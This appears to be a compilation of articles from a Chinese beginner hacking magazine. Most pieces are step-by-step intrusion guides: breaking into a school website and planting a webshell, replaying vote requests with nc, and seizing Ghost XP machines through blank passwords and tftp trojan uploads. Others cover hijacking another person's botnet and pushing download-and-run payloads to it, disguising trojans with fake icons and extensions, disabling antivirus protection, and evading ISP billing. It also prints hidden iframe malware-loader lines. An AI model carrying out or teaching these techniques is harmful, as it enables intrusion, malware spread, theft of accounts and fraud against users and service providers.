终于放假了，现在高二都这么累，高三可怎么办啊。在狂睡了两天后，我起床打开电脑，想上网找找有没有我们学校的网站，查个分什么的。登录上QQ一问同学，果然有。我晕，主站最近更新在2005年（图1）？看来学校对网站太不够重视了。唉，在人口众多的河南，只有升学率最有发言权。我在上面转了转，没有发现什么查分系统，正想问同学，忽然发现QQ没了！我不记得我关了QQ啊，看来被放马了。回想今天开机只上了我们学校的网站，木马应该来自学校了。

难道现在的木马也是“买一赠一”？！


### 一、本地杀马

既然QQ没了，说明至少有一个QQ木马，并且连瑞星都傻了，改马者一定不是很菜。打开IE临时文件夹，没有发现EXE文件，正在纳闷，忽然想起来现在木马有一个叫“安装后删除”的功能。不管了，按以前作者的方法：先打开x-sniff，输入 `x-sniff.exe -pass --hide -log pass.log` 开始监听，然后登录QQ，再停下x-sniff（图2）。我想到以前作者反盗QQ的经过，一会儿改马者一定对着空的邮箱犯傻了，我暗喜啊。


但是当我打开记录文件的时候，傻的却是我了（图3）。这里并没有出现以前作者所说的SMTP服务器地址什么的，什么都没有。我观察了，监听所有的TCP和UDP，这下有了，木马用80端口通信，看来改马者为了我的QQ是煞费苦心啊。


我也低估了他的水平。不过从IP、地址来看，ASP接口就在我们学校的网站上（图4）。

### 二、网站揪马

为了让千千万万只会聊天的同学远离QQ被盗之苦，我又一次勇敢地闯进了我们学校的网站。按我今天打开的页面，查看源文件，并搜索 `width="0"`，终于在论坛的首页页面发现了这个害人的木马，原来是 `http://www.**3z.com/bbs/help.htm`（图7）。


```html
... style="display:none" id="onlinetr" ...
<iframe width="0" height="0" src="online.asp?..." ></iframe>
... src="http://www.**3z.com/bbs/help.htm" ...
```

我把这个害人的help.htm用迅雷下载下来，可惜加密了。不过能看出是“URL加密”。原来这个dvbbs.exe、gezi.exe、ray.js就是我们要找的幕后凶手。下载下来，发现这个改马者的免杀技术实在让我佩服，瑞星居然都没报警。gezi.exe应该就是灰鸽子了，所以dvbbs.exe是阿拉QQ大盗（图8）。


### 三、网站杀马

下来就是入侵网站彻底删除木马了。按我们老师的能力，我提交 `http://www.**3z.com/bbs/data/dvbbs7.mdb` 下载了数据库（图9）。在 `www.cmd5.com` 成功破解了前后台密码，接下来就是上传木马了。这里命运又和我开了个玩笑，上传页面被删掉了。先把版权信息中的木马信息删掉，又在后台转了N长时间，终于看到这里，支持HTML语法？！我连忙把海洋一句话木马插进去（图10），再用数据库备份功能备份为 `dvbbs7.asp`，打开客户端上传，终于成功了（图11）。


下来就是删除 `help.htm`、`dvbbs.exe`、`gezi.exe`、`inc/ray.js`、`js/ray.js`，现在只剩下QQ大盗的ASP接口了。我翻了半天，发现是 `admin_fso.asp`，QQ号码保存文件是 `help.txt`（图12）。

### 四、总结

盗QQ是违法行为，也希望大家不要通过挂马这种损人不利己的方法来证明自己的实力，做人要厚道！

（本文所涉及到的x-sniff、阿拉QQ大盗和海洋木马已收录到光盘中）

## 隐藏磁盘小妙招

一次在整理磁盘时发现了一种新的隐藏分区方法，简单而有效。依次打开“我的电脑”→“管理”，在左边的窗口中选择“磁盘管理”，如图1。

点中“G:”，然后点“删除”，可能会出现如图4所示的提示框，提醒我们磁盘中有正在使用的文件；如果重启后再调用这些文件就会因为删除了驱动器名称而找不到文件。从这个提示可以看出，所有磁盘的信息都在这里了，选择你要隐藏的磁盘，点击鼠标右键选择“更改驱动器号和路径”（图2，图3）。


这种方法适合隐藏一些不是经常使用的文件。确认删除后，这个分区在“我的电脑”、CMD下都不会找到，因为它已经不是G盘了（图5，图6）。


想恢复的话，到“磁盘管理”，仍然选择被隐藏磁盘的“更改驱动器号和路径”选项，添加回原来的驱动器号就可以了（图7）。

总的来说，这种方式对想保护自己隐私的朋友来说是最简单实用的方式，有兴趣的朋友可以自己试试。

## 被“叉”起名的投票

王艺翔

在07年第3期的X中有篇文章“我酷我秀，你的排名我作主”，看完后我也想找个网站实践一下，光看不练是不行的。这不学校新校区已经接近完工了，现在准备给两个校区起个名字，如图1。

按照那篇文章前面讲的方法去分析，然后找到适合自己的攻击模式。

在那篇文章中讲了投票系统的五种认证模式，后面三种我大体排除掉了。第一种基于IP的认证我想更不可能，因为我们学校的网站放在外网，而且同学们上网都是通过一个IP地址出去的（PAT技术），如果是基于IP的认证岂不是只能投一票吗？所以我初步断定是基于Cookie的认证。

现在证明一下自己的观点，我先给“池堤校区”投一票，出现了如图2所示的界面，然后再转给“范堤校区”投一票，出现了如图3所示的界面。下面我将IE的“Internet选项”下“隐私”调整为“阻止所有Cookie”，这样再给“范堤校区”投一票，又出现了如图2所示的界面，此时我们想投谁就投谁了，而且可以最终认定它是基于Cookie的认证。


初战告捷，但是总感觉这样每次点来点去既没有意思又麻烦，更没有科技含量。能不能在短时间内投很多的票呢？关键是不要手动投票这种麻烦。在那篇文章中讲到使用CC模拟正常用户发出请求来投票，但在我这次攻击中肯定没有用了。而且像这样完全基于Cookie认证而不是基于IP认证的页面，我想也没有必要寻找大量代理伪装成正常访问者来投票。既然不想通过手动的方法投票，那我想能不能使用NC提交包的方法来投票呢？打开WSockExpert抓包，我先投“池堤校区”，看看抓的包（图4）。

```http
POST /vote/deal.asp?id=33 HTTP/1.1
Accept: image/gif,image/x-xbitmap,image/jpeg,image/pjpeg,application/x-shockwave-flash,...
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: www.***.***
Content-Length: 45
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONID...=

choice=56&id2=33&Submit22.x=28&Submit22.y=11

图4
```

- 在页面上找不到提交地址，它是以层的形式出现的，后面我用抓包工具找到了提交地址“/vote/deal.asp?id=33”；
- 找不到提交投票信息的链接地址；
- 以前没有搜集代理，现在去找很麻烦。

```http
POST /vote/deal.asp?id=33 HTTP/1.1
Accept: image/gif,image/x-xbitmap,image/jpeg,image/pjpeg,application/x-shockwave-flash,...
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: www.***.***
Content-Length: 45
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONID...=

choice=57&id2=33&Submit22.x=25&Submit22.y=10

图5
```

发现果然是“choice=57”，和预想的一样。至于后面“Submit22.x、Submit22.y”经过证实对投票结果不产生影响，唯一影响投票结果的就是Choice选项。

## 傻瓜黑客

文中介绍了在命令行中使用 `nc www.xxx.com 80 <2.txt` 等方式提交数据包进行“投票”测试，并讨论了复制数据、批处理与提交效率问题。


图6

正文继续说明：提交后页面显示“投票成功”，但存在一次一票、窗口无法自动关闭等问题；通过批处理可提升短时间提交量，并总结分析与实践排错的重要性。

## 原来也可以这样使用站内“搜索”！

稻草人

作者介绍在搜索黑客软件时进入 Gbaopan 网站，认为资源丰富，并提到站点下载与账号限制；随后通过站内“公共搜索”栏目检索站内资源。


因为没有money买U盘而暂时保存在上面的文件，有一些还是“绝密”文件呢！

我最先想到的就是小菜们最想要的东西——webshell。想不到吧，我随手输入了webshell.txt，开始搜索，没想到真的找到很多啊，如图2。

我们随便选择一个打开看看，如图3，文件里记录了好多webshell，有的网马后面还留有登录密码呢。我们从中选择一个登录看看，成功地终于上去了，如图4。

虽然这些webshell中有很多没有密码的，但是通过社会工程学（比如文件的命名方式、已经汇聚下的账号密码、弱密码等等），有80%的webshell还是能够进去的。

简单吧，甚至不需要Google Hacker的那些方法，只需要知道一些普通的命名方式，就可以搜索到想要的文件。里面还有很多等着小菜去“开发”的呢。不过说明一下，其中也有一些程序是绑有后门的，天下没有免费的午餐，各位菜菜还是有的放矢吧！


## 寻找源码——网马真身在何处

最近学校的网站有一段时间简直登录不上去了，不过接下来的就令人汗颜了。我打开了学校的论坛，一下子瑞星就兴奋起来，连着报了五次病毒（图2）。我说网站和论坛都恢复了，可以正常登录了。

我打开电脑直奔主题，访问学校网站的主页时我的瑞星并没有报警。打开网站首页的源文件开始查看，在第一行就发现了这句代码：`<script language=javascript src=xyll/me.js></script>`。很可能是JS挂马语句。我又查看该JS文件，内容为：`document.write('<iframe width="0" height="0" src="http://www.hggg.net/qq/1.htm"></iframe>')`。

我心里暗自高兴了一下，但也有点疑惑：学校网站的首页和论坛首页好像都被挂了马，让我去看看。

我依次验证了一下，确定了第一个是梦幻西游的盗号木马，第二个是魔兽世界的盗号木马（现在这类号生意还挺流行）。当我打开第三个网页时，发现它并不是一个网马，而是另一个网页，而且打开的时候瑞星又开始报毒。在源文件里一下子就看见了这些比较恐怖的代码。

```html
<iframe src="http://www.yxgm78.com/mh/mh.htm" width=0 height=0></iframe>
<iframe src="http://www.yxgm78.com/mh/wow.htm" width=0 height=0></iframe>
<iframe src="http://.../qq/2.htm" width=0 height=0></iframe>
```


```html
<iframe src="http://www.2ssss.com/qq/pop.htm" width=0 height=0></iframe>
<iframe src="http://.../qq/1.htm" width=0 height=0></iframe>
<iframe src="http://.../index1.htm" width=0 height=0></iframe>
<iframe src="http://.../index2.htm" width=0 height=0></iframe>
<iframe src="http://.../xx.htm" width=0 height=0></iframe>
<iframe src="http://.../xiao.htm" width=0 height=0></iframe>
```

真狠啊，一下子就是6个，不过后来测试后，发现只有最后2个是网马，其它的几个都是非法插件安装和刷流量的。再继续检查，在第2、3、4行代码中提到的网页中都有类似iframe语句，可能是刷流量，也可能是这个网页上又被挂了马。

再查看源码文件，发现了可疑语句：`<script language=javascript src=http://www.688ip.com/popup.js></script>`。在popup.js文件中又发现：`document.write('<iframe width="0" height="0" src="http://www.688ip.com/qq.htm"></iframe>')`。

至此，所有网马的真身都显现出来了。上网时一定要小心脚下隐藏的地雷，保护好自己比什么都重要。

## 菜鸟轻松架设本地WAP网站

相信许多读者都经常通过手机到WAP站点来浏览信息，大家也一定想做一个自己的WAP站点吧。今天就看我如何简简单单地弄个WAP站点出来。

WAP被称作口袋中的互联网，已被公认为移动技术与互联网技术结合的典范。它将因特网的内容和数据服务带入到移动电话终端，用户只要携带支持WAP协议的移动终端设备就可以浏览任何的WAP站点。

### 一、WAP网站基础知识

在开始制作WAP站点和页面前，我们先了解一下WAP站点的技术规范。WAP站点使用的语言性质和我们平时的WEB站点相同，也是标记语言，但是它的格式和WEB语言的就不同了，它采用的是以XML为基础的WML语言格式。一个WAP语言的基本格式如下：

```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml">
<wml>
<head>
</head>
<card id="" title="">
</card>
</wml>
```

其中头三行是用于类型声明的，如果是手工制作WAP页，一定要注意字母的大小。`<wml>`和HTML语言的`<html>`类似，表示是一个WML页。真正的WAP网页内容在card标签之间，一个页面可以拥有多个CARD标签，各个CARD标签使用自己的ID进行区分，在WML中显示图片、文本等的格式和HTML类似！

为了让读者更容易区别WEB站点和WAP站点，我做了如下的整理。

- **不同点**
  1. 页面制作语言不同：WEB网站使用HTML、ASP、PHP等，WAP网站制作采用WML语言。
  2. 页面编写方式不同：WEB页面可用FrontPage、Dreamweaver等；WAP页面可手工制作或使用软件辅助工具，也可由ASP、PHP动态生成。
  3. 页面浏览器不同：WEB页面需要IE、Firefox等浏览器；WAP页面需要专用浏览器（如WAP2.0专用浏览器）。
- **相同点**
  - 两种站点的服务器搭建环境基本相同，使用IIS、Apache等都可以制作这两种网站服务器。

### 二、自己搭建WAP网站

1. 使用IIS制作WAP网站服务器，只要对常用的IIS服务器的“MIME映射”稍微设置一下就可以满足我们的需要。在网站属性界面，切换到“HTTP”标签界面，单击“文件类型”弹出文件类型对话框，点“新类型”输入关联扩展名和内容类型后“确定”即可（图1）。


| 扩展名 | 内容类型 |
|---|---|
| wml | text/vnd.wap.wml |
| wmls | text/vnd.wap.wmlscript |
| wmlc | application/vnd.wap.wmlc |
| wbmp | image/vnd.wap.wbmp |
| wmlsc | application/vnd.wap.wmlscriptc |
| wsc | application/vnd.wap.wmlscriptc |

以上各个文件类型注册完毕后，WAP网站就建立完成了，剩下的任务就是制作WAP页面了。另外，如果我们购买了虚拟主机，完全可以和提供商联系，提交我们的申请，让虚拟机管理员为我们设置。

2. 制作WAP页面。我们可以按照第一部分介绍的WAP页面格式来制作页面，但是如果不懂XML代码就有一定的困难了。可以使用DOTWAP这款工具来完成我们的任务。


首先运行DOTWAP，进入MAINMENU，就可以在右边修改WAP的首页标题了，可以在“文本”中输入简短的网站介绍（图2）。如果想在WAP站点上放置LOGO，可以在MAINMENU上单击右键，依次选择“添加子项”→“图片”，然后点击右侧窗口的“浏览”，选择想添加的LOGO即可。因为手机屏幕小，所以在设计LOGO时一定要注意大小。设置完首页后还可以在右键菜单中选择“添加页面”来制作另外的WAP页，选择后在右侧窗口中修改标题输入内容。整个WAP站点设置好后，点击“保存”，保存设计的WAP网页。

### 三、看一下我们做成的WAP网页

## 又一种 Ghost 版 XP 系统抓鸡总结

Efox2046

### 方法一：WMI 服务 + 135 端口开放 + 管理员空口令

首先使用 S 扫描器扫描一下开放 135 端口的电脑，格式为：`s tcp xxx.218.55.80 xxx.218.55.100 135 512 /save`。tcp 表示使用 tcp 方式扫描，135 是扫描端口，512 是线程数，`/save` 表示保存结果。

使用 Windows XP SP2 的朋友最好先解除系统的 tcp/ip 连接限制，可在工具中调整连接数后重启系统。


选择目标 IP 后在工具中填写主机、用户名与密码并执行。若 Telnet 服务成功开启，即可继续使用 telnet 连接，按提示选择是否发送密码信息。

在 login 处输入 `administrator`，密码为空可进入远程主机。进入后可执行 `tftp` 上传木马，再进行后续操作。并非所有主机都可行，需要满足条件并逐个尝试。

### 方法二：3389 空口令

将配置好的木马放在可访问空间或 IIS 服务器（建议扩展名改为 cmd），扫描 3389 端口后使用远程桌面连接，用户名可用 `new` 或 `administrator`，密码为空。

若碰到空口令可成功登录，在浏览器地址栏输入木马地址执行。随后会出现下载与安全提示窗口，确认后即可运行。

### 方法三：ipc$

该方法在 Win2000 时期较常见，也可用于 WinXP。文中提到借助网络工具包与 IP 数据查询同地段主机并进行后续连接尝试。


（页首区域还有上一段文章的收尾内容与两张示意图：图 3、图 4，内容与 WAP 浏览相关）


（速度快），在“啊D网络工具包”的“肉鸡查找”选项中填上 IP 段，再点“开始扫描”。一杯茶的工夫，我们就看到结果，如图 8。

使用右键点上一个 IP，在跳出来的菜单中选择“打开对方的 telnet”，这时会有一个窗口跳出来。我们就点“启动”，顺利的话就会打开对方的 telnet 服务了，端口为 23。接着弹出询问是否连接的对话框，如图 9，点击“确定”后，自动会连接远程的 telnet，下面的步骤就可以参照方法一来搞定它了。这种方法抓的肉鸡也比较多。

以上的这三种菜鸟入侵方法都是由于设置不当引起的，真想不通那些制作 Ghost 版安装系统的家伙为什么会要将系统设置成这样。


默认情况下 XP 的 3389 端口是不开放的；同样的，在默认情况下，无论使用什么用户进行 ipc$ 连接，系统也都只会给它 guest 权限，这根本入侵不了。但是当你使用 Ghost 版的 XP 系统时，这一切就全变了，小菜们得注意了，看看自己的系统是不是这种 Ghost 版的，如果是的话请赶紧弄一张原版的安装光盘好好地安装一下系统吧。免得“帅而未捷身先死”，肉鸡没逮到，却反而成了别人的肉鸡。

> （本文所涉及到的 S 扫描器、Recton 和啊D网络工具包请到 X 的网站上来下载）

## 文件后缀的艺术

& 我是歪星魂


有一个 QQ 病毒，先是显示一张图片，然后释放出灰鸽子服务端，这是很常见的一个病毒。不过我们细一看，发现文件的后缀竟然是 SCR，这不是屏幕保护程序吗，怎么能运行起来呢（小编注：scr 确实是屏幕保护程序的扩展名，不过，scr 也是一种可执行程序）？找到 BAIDU 查找，全都是介绍这个病毒的危害，没有病毒样本或更详细的介绍。没办法，又到网上寻找可以把 exe 转换为屏保的软件，但却没有找到。直到前几天专门研究各种病毒原理的时候才知道，原来把 exe 直接改成 scr 后缀也能正常运行的（小编注：都是可执行文件，这样改扩展名，自然不会影响程序本身的正常运行）。

正是这个小发现提醒了我，其实关于文件后缀还是有很多可以发挥的地方的。

先说说在程序启动的时候显示图片吧，一般的方法是用捆绑机，比较常见的是 NCPH 捆绑机和百世经纶捆绑机，不过也有缺点，比如很多个人电脑上使用的是 ACDSee，这个软件把图片的默认打开方式全改成自己了，所以我们捆绑后的图片是显示不出来的，只是出现 ACDSee。


当然还有别的办法，编写程序的朋友都知道程序的图标都在文件头，这个地方一般有很大的程序空代码，所以在这里也是可以添加其它东西的，比如图片或是插入一些比较小的文件。小弟比较懒，就用了别人写好的工具，使用前必须注意你想添加图片的程序不能有自校验功能，否则运行会出错。还有就是一定要是 BMP 格式的图片文件，其它格式的图片不支持，程序会提示出错。原来我想添加 wmf 漏洞生成的图片，不过没有成功，真希望 BMP 解码器也暴出漏洞，毕竟在程序里绑定图片本身传播得又快又安全，绝对不会有人怀疑。

不过针对添加启动图片也有专门移除启动图片的程序。

再就是关于 MS 的文件后缀，已知的后缀可以改成 SCR、BAT、CMD、COM、PIF。其它的后缀分别试了一遍都不能正常运行。改成 scr 后缀的文件图标还是显示程序原来的，换成 BAT 和 CMD 后缀后则是批处理的图标，而 com 则是早期的 Windows 文件图标，换成 PIF 后缀则是 DOS 快捷方式图标。


方式的图标，如图 1。

还有一个发现就是改成 pif 后缀，在“显示文件扩展名”的情况下也是不显示后缀的，只能在 DOS 下看到这有个后缀名……


举个例子，我们以 x 后缀为例，不用奇怪，其实后缀名不一定非要一个字符。只要文件关联设置正确就能运行……


有读者可能会问这有什么用呢？可以在设置自启动程序的时候迷惑肉鸡管理员。一般管理员对 EXE 和 DLL 格式的自启动文件特别敏感，但对一些其它类型比如 ns 方式的文件警惕性可能就不会很高……

## 肉鸡在前，菜鸟在后

前几天，我搞到了一只肉鸡，通过木马的屏幕监控，我看见对方正在使用上兴 2007 共享版，还看见对方的上兴里有十几只肉鸡。……我在木马里查看了半天，终于知道了对方是使用花生壳及 FTP 来 IP 通知上线的……

### 一、盗花生壳密码

许多菜鸟为了使用方便，都会把花生壳的“自动登录”和“记住密码”这两项选中。可是大家是否知道在花生壳根目录下的“PhMain”这个配置文件里会记录下你的用户名和密码呢，如图 2，“szUId”是花生壳的用户名，“szPWD”则是花生壳的密码。


我在对方花生壳的根目录下把“PhMain”配置文件复制到了我的电脑中，然后打开“PhMain”配置文件，复制账户用户名和密码，然后对于自己的花生壳根目录下的“PhMain”配置文件，在相应的位置处粘贴上去，如图 3。

保存后我们重新打开花生壳的客户端来看是否用户名和密码都改变了（图 4）？直接点击“登录”按钮，然后打开上兴 2007 共享版的客户端，肉鸡就来上线了（小编注：还要注意上线端口的问题，如果对方更改的话，我们也要相应地更改才行）。


### 二、盗 FTP 密码

盗取 FTP 密码与盗取花生壳密码的方法差不多。打开“Re2007”的配置文件，在“[更新IP]”这一栏目下，“FTPServer”是 FTP 服务器的名称，“FTPport”是 FTP 服务器的端口，“FTPUser”是 FTP 服务器的用户名，“Password”是用户的密码，“IpFile”是在 FTP 服务器上存放 IP 的文件地址。


把对方的上兴 2007 共享版目录下的“Re2007”配置文件复制到我们的电脑中，打开后，把以上内容原地粘贴到我们的 Re2007 配置文件中，如图 6。保存后，重新打开上兴 2007 共享版的客户端看看，FTP 的信息都变了，如图 7。点击更新到 FTP 空间，肉鸡又上线了。

### 三、破解连接密码

连接肉鸡时可能需要输入连接密码，我们可以打开复制过来 Re2007 配置文件，在“[Operation]”栏目下的“Password”就是连接密码，如图 8。也把它复制到我们的 Re2007 配置文件中。这样就可以连接肉鸡了。


### 四、快速转移肉鸡法

现在我们只不过是把对方的肉鸡拿了过来，还不能算是真正的盗过来，因为 IP 通知上线还是别人的域名或 FTP，我们必须把 IP 通知上线改为自己的域名或 FTP。转移肉鸡时，可以使用上兴 2007 共享版的下载者功能，把我们的服务端上传到空间里去，点击“批量命令”，如图 9。


勾选“选择全部”，选择“网络功能”，在“网络综合控制功能”里的“地址”上输入木马的空间地址，勾上“下载后运行”点击批量下载文件，如图 10。肉鸡下载完文件会自动运行，肉鸡这才算真的属于我们了。我没有测试过其它客户端，但我认为使用同样的思路也应该能够盗取用户名和密码，有兴趣的朋友不妨试试。

## 扫描别忘记破解 WindowsXP SP2 的线程限制

关于 WindowsXP SP2 的线程限制是个老问题了，但是仍然有许多朋友在 QQ 上向我反映，他们在参照着杂志或书里的方法进行扫描的时候，什么也扫描不到或是扫描得非常少，而别人扫描同一网段却可以扫描到许多。扫描不到结果的原因有很多，但最普遍的一个原因就是没有破解 WindowsXP SP2 的线程限制。

WindowsXP SP2 之所以限制最多 10 个线程，本意是为了防止病毒的传播。WindowsXP SP2 利用 Messages 动态链接库来实时监控每个进程的并发线程数目，一旦发现某个进程的线程数超过 10 个，就会屏蔽掉部分线程。因此当我们使用扫描工具时，很多扫描任务会被系统屏蔽，扫描效果变差。哪里有限制，哪里就有破解。


……

`\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` 下的 TcpNumConnections 键值来更改线程的说法是不对的，因为控制线程的是 `Tcpip.sys` 这个文件，通过修改这个文件才能达到目的……

我们上边使用的 EvID4226Patch 是一个命令行下的工具……接着工具会给出修改的范围，输入你想要修改的数目，然后确认即可。


使用迅雷修改虽然方便，但我们总不能背着迅雷到处走……它也带有修改线程的功能（图 5），而且工具是独立文件，体积小便于携带。


一个小小的问题有多种解决方法，虽然本质上是相同的，但我们需要根据个人情况来选择最适合自己的方法。

此时如果选择“Y”，程序将会把线程改为 10；如果想修改线程的话，就选择“C”来改变线程，输入 500 并再次“Y”确认，重启后完成修改（图 3）。

注意：网上流传的通过修改注册表 `HKEY_LOCAL_MACHINE ...` 的方法并不可靠。

## 干掉瑞星的监控密码

在 X 的论坛里混了几个月，我总算学会了使用灰鸽子……今天在机房里上机，我就打算在机房里找个肉鸡。但是机房里的电脑都安装有瑞星 2007……


正要关的时候问题出现了，居然还要密码（图 2）！晕了，猜了老半天密码也没有猜到，难道没有解决的办法了吗？


我找到瑞星的安装路径，看到了小绿伞。我本来认为把它删了就会没事了，可就是不让删，提示“正在运行中”。于是开始逐个查找相关文件……最终找到了 `rsconfig.dll`（图 3）。


我把它删除后再关闭瑞星监控就不需要回答密码了（图 4）。终于让我找到了瑞星的漏洞了……


> 十全十美的软件，只要肯研究，就一定会找出解决的方法的！

## LINUX 终极模拟

BASENET

一个真正的好菜鸟，不能只会使用一个 Windows 系统。因此，要想成为好菜鸟，就得多多体验一下别的操作系统，尤其是 LINUX。当然我们可以通过安装虚拟机，再安装 LINUX 的方法来进行体验，但是安装过程相对于今天我要介绍给大家的方法实在是太复杂了。

在去年的 X 上我曾经利用 Windows 下的 doskey 命令为大家写了一个简单的熟悉 LINUX 命令的批处理，相信各位小菜都已经非常熟悉 LINUX 的命令了。现在我们可以利用 MetroPipe VPM，通过简单地运行一个批处理文件，就能体验 LINUX 的强大功能了。VPM 是一个多平台的小型虚拟机软件，小小的压缩包中包含了一个完整的 Linux 版本，解压缩后直接运行其中的 qemu-win.bat 就能启动 Linux，如果是在 Linux 中使用则运行 boot-linux.bat，如图 1。


图 2


图 1


图 3

根据弹出窗口的提示回车登录 Linux，出现桌面后就能和普通 Linux 一样操作了，如图 2。

磁盘目录结构、命令等都和普通的 Linux 完全相同！使用组合键“Ctrl+Shift+F”就能全屏操作 Linux，但是全屏之后屏闪比较严重，还是窗口模式对得起自己的眼睛哦。要回到窗口模式只需再按一次“Ctrl+Shift+F”。运行 VPM 后，软件会直接映射 Windows 系统中当前存在的网络连接，无需手动进行网络配置。我们可以用 Linux 中自带的 Firefox 来浏览网页（图 3）、Thunderbird 收取邮件、axFTP 上传文件，可惜的是软件只支持英文，浏览中文网站会出现大量的问号。

另外进入 Linux 后，你会发现鼠标无法脱离 Linux 窗口了，要再次回到 Windows 系统才行，可以使用组合键“Ctrl+Shift”。个人感觉这是一个非常优秀的 LINUX 虚拟软件，压缩包大小只有 70M，无需安装，方便快捷，想体验 LINUX 的叉子们可千万不要错过哦！（本文所涉及到的 MetroPipe VPM 已收录到光盘中）

## 轻松伪造

— safe[S.H.C] —

我们都知道一些最常见的木马病毒的伪装手段，什么数字 1 和字母 l，数字 0 和字母 o 的伪装等。这些小把戏我们这些小菜也会经常用来隐藏自己的木马。这次来向大家介绍一个木马易容术，不过这次我们要自己动手来打造伪装的木马，那就是——图标的替换。


图 1

使用过黑洞的读者都知道，生成的服务端可以伪装成类似文本文档的文件，其图标是类似文本文档的图标（实际上不是，我们仔细对比图 1 中的两个图标就可以看出区别了），那能不能伪装成更好的图标呢？答案当然是可以的，关键是要找到好的图标。


图 2

图标，倘若找不到的话，那就自己来手工提取好的图标吧！


图 3


图 5

我们知道图标是在系统里的，那么一定可以从系统中提取出图标。根据这个思路首先被我盯上的是 EXPLORER.exe，它可能是资源管理器啊，应该能够找到好东西。使用 ResHacker 打开 EXPLORER.exe，点击图标选项，下面好像有很多小东西啊。右键“保存图标资源”（图 2），把它保存在一个文件夹下，如图 3 所示就是提取出来的图标，图标有 16 个，只有一个能被我们利用上，就是那个文件夹图标。


图 4

知道这个程序在哪儿，上网搜索了一下，原来秘密在 C:\windows\system32\shimgvw.dll 里，这个动态链接库文件就是“Windows 图片和传真查看器”，那就用 ResHacker 打开它吧，导出图标资源，哈哈，果真藏在这里（图 6）。


图 6

图标还是感觉到太少了，再找。在修改一个文件夹图标时，有那么多的图标可供我们选择，它们是存在哪里呢？来修改一个文件夹图标，让我看到了这个（图 4）。细心的读者应该看到“浏览”旁边的 shell32.dll 了吧，那就拿它开刀吧。在 system32 下找到这个 shell32.dll，再次使用 ResHacker 打开它，导出图标资源。这回足够用了，有两百多个图标（图 5），还找到了好几个文件夹图标和文本文档的图标，这次可以充分用来隐藏我们的木马了。

好了，有了这几件伪装的衣服我们就可以好好装修“程序”了，使用自解压文件还是给木马改头换面就看各位自己的爱好了。我做了几个木马，大家来看看是不是很逼真（图 7）。这次这个文本文档图标可比黑洞的伪装更好啊，你真的能够区分清吗？


图 7

> （本文所涉及到的 ResHacker 和提取的图标已收录到光盘中）

## 利用 PPPOE 服务漏洞来免费上网

> “没文化的树杈〔Yulv〕”

我们学校上网的价格是 1 元/小时，对于我这样的穷学生来说还是蛮贵的。学校里谁都在抱怨电信就懂坑我们学生的钱。网费贵了还不说，更气人的是竟然还限制了流量，这让我们这些学生更是恨上加恨。但是上天还是同情我们的，这不，最近电信爆出了一个漏洞，可以利用它实现免费上网了。我们被电信剥削了那么多，终于可以拿回来一点补偿了。

### 一、分析

先来分析一下这个漏洞，我们这里的上网环境是电信建设的线路，使用 PPPOE 拨号，加上了一个计费系统（计费时间和流量）。至于这个免费上网的漏洞主要出在 PPPOE 服务器上。当 A 电脑和 B 电脑使用同一个账户（例如在这里我用的是 xtc00345306@xtdx 这个账户）拨号时，并且拨号的时间几乎是一致的时候，PPPOE 服务器就会让两台电脑一起接入网络。这时候计费系统就认为 xtc00345306@xtdx 这个账户连接入网络了，但是在 A 和 B 其中任意的一台电脑下线的时候，计费系统都会认为 xtc00345306@xtdx 账户已经下线了，这时 PPPOE 服务器也不会继续计算 xtc00345306@xtdx 这个账户的上网时间和流量。知道了原理后下一步就好办了……免费上网了。

### 二、实践解决

以前利用这个方法实现免费上网时还是用手工连接的，两个人分别坐两台电脑，再喊“1、2、3……开始”的时候，一起同时点拨号软件的“连接”。这种原始的方法成功率比较低，要试很多次才成功。由于电信的改进，后来这个原始的方式因为延时太大而用不上了。不过现在可以用软件来拨号，这个软件叫“一个人拨两人的号”，它让两台电脑同时拨号，并且间隔可以达到很小很小。这样一来，PPPOE 服务器就会接受两台电脑连接入网络，我们也就可以免费上网了。

但是两台电脑是不是还是太麻烦了呢？假如你所在的环境没有两台电脑那不是完了？的确这是个问题，我也是这种情况。所以嘛，我使用虚拟机（VMware Workstation）。有关虚拟机的安装以及使用，大家请参考一下相关文章吧，我只多说一点要注意的，就是自己的电脑一定要跟虚拟机在同一个网段才行（图1），并且虚拟机内的系统最好跟本机的相同。

现在我们开始测试。首先在虚拟机中运行拨号软件“一个人拨两人的号”，运行之后选择“服务”，如图2。接着，设置“临时用连接”为你要拨号的“宽带连接”，如果没有这个的话就点击“新建连接”，自己新建一个就可以了。弄完这些之后我们点击“等候”，如图3。


现在我们再切换出虚拟机，回到自己的电脑中，也运行“一个人拨两人的号”，运行之后选“客户”，如图4。并且在“服务器地址”中填上虚拟机的 IP（我虚拟机的 IP 是 192.168.55.117），端口也要跟虚拟机一致（默认是 1080 代理端口），再填账户密码，点击“拨号”就可以了。


图7

图8

拨号画面如图5所示，拨号软件正在连接了。尝试的时候你会发现，有时拨号成功快，有时慢，这是软件正在尝试一起拨号。这个过程一般要花 3、4 分钟，但还要看运气。运气好的话，一下子就可以拨上了，运气不好就等几分钟吧。几分钟后，全局状态显示“完成”，这时候就证明拨号成功了（图6），我们就可以关掉虚拟机，并开心地吃免费大餐了！为了确认这种方法有效，我们先查看账户的上网信息记录，如图7。接下来做的就是等候时间的过去，我在网上找了几个整页，看新闻，聊会 QQ，过了半个小时之后再下线，重新拨号上去，再查账户的情况并对比，如图8。LOOK！还是不变，怎么样？是不是很爽呀？

我是在湖南省测试成功的，相信很多地方也一样。只要是使用 PPPOE 拨号的，都可以尝试。由于目前校园里使用这种方法的很多，估计电信很快就会发现，在此写出来与不知道的朋友分享一下，希望大家抓紧时间利用，别让电信白占我们的便宜！好了不多说了，只要你们当地电信还没有修补这个漏洞的话，就尽情地利用吧！（本文所涉及到的拨号软件已收录到光盘中）

## 简单设置让卡巴不再盲目

卡巴斯基虽然很强大，但是最近卡巴却爆出了严重漏洞，只要病毒修改了系统时间就会挂掉，有等于没有。那么使用卡巴的朋友在没有打补丁之前应该怎么保护自己免受病毒的侵扰呢？

